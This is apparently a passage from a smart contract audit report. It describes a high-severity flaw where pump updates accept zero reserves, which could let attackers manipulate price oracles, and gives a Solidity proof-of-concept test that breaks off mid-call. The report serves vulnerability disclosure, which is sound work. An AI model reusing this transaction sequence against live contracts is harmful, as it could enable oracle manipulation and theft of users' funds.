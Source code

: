 **Impact:** Updating pumps with zero reserve values can lead to the distortion of critical states likely to be utilized for price oracles. Given that the issue is exploitable through valid transactions, we assess the severity as HIGH. It is crucial to note that attackers can exploit this vulnerability to manipulate the price oracle.

**Proof of Concept:** The test below shows that it is possible for reserves to be zero through valid transactions and updating pumps do not revert.

```solidity
function testUpdateCalledWithZero() public {
    address msgSender = 0x83a740c22a319FBEe5F2FaD0E8Cd0053dC711a1A;
    changePrank(msgSender);
    IERC20[] memory mockTokens = well.tokens();

    // add liquidity 1 on each side
    uint amount = 1;
    MockToken(address(mockTokens[0])).mint(msgSender, 1);
    MockToken(address(mockTokens[1])).mint(msgSender, 1);
    MockToken(address(mockTokens[0])).approve(address(well), amount);
    MockToken(address(mockTokens[1])).approve(address(well), amount);
    uint[] memory tokenAmountsIn = new uint[](2);
    tokenAmountsIn[0] = amount;
    tokenAmountsIn[1] = amount;
    uint minLpAmountOut = well.getAddLiquidityOut(tokenAmountsIn);
    well.addLiquidity(
        tokenAmountsIn,
        minLpAmountOut,
        msgSender,
        block.timestamp
    );

    // swaFromFeeOnTransfer from token1 to token0
    msgSender = 0xfFfFFffFffffFFffFffFFFFFFfFFFfFfFFfFfFfD;
    changePrank(msgSender);
    amount = 79_228_162_514_264_337_593_543_950_334;
    MockToken(address(mockTokens[1])).mint(msgSender, amount);
    MockToken(address(mockTokens[1])).approve(address(well), amount);
    uint minAmountOut = well.getSwapOut(
        mockTokens[1],
        mockTokens[0],
        amount
    );

    well.swapFromFeeOnTransfer(
        mockTokens[1],
        mockTokens[0],
        amount,
        minAmountOut,
        msgSender,
        block.timestamp
    );
    increaseTime(120);

    // remove liquidity one token
    msgSender = address(this);
    changePrank(msgSender);
    amount = 999_999_999_999_999_999_999_999_999;
    uint minTokenAmountOut = well.getRemoveLiquidityOneTokenOut(
        amount,
        mockTokens[1]
    );
    well.removeLiquidityOneToken(
        amount,
        mockTokens[1],
        minTokenAmountOut,
```